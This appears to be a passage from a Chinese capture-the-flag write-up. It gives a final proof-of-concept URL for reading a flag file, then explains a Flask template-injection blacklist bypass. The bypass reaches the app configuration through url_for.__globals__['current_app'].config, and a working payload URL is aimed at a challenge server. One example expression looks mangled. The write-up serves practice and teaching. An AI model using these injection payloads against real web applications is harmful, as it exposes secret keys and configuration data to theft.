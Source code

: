 最终poc

```
http://61.147.171.105:54511/file?filename=/fllllllllllllag&filehash=27eeb042366cf2b0037409159e41ec50
```

#### flask模板注入

黑名单绕过：

将config和self当成了黑名单而flag在config文件里如果没有黑名单的时候，我们可以传入config,或者传入{undefined{self.dict\}}获取，但当这些被过滤的时候，我们需要借助一些全局变量利用沙盒逃逸的方法，来调用被禁用的函数对象。

<pre><code>current_app,这是全局变量代理，查看他的config即可
{{url_for.__globals__['current_app'].config}}

poc：
<strong>http://61.147.171.105:62289/shrine/{{url_for.__globals__['current_app'].config}}
</strong>
</code></pre>
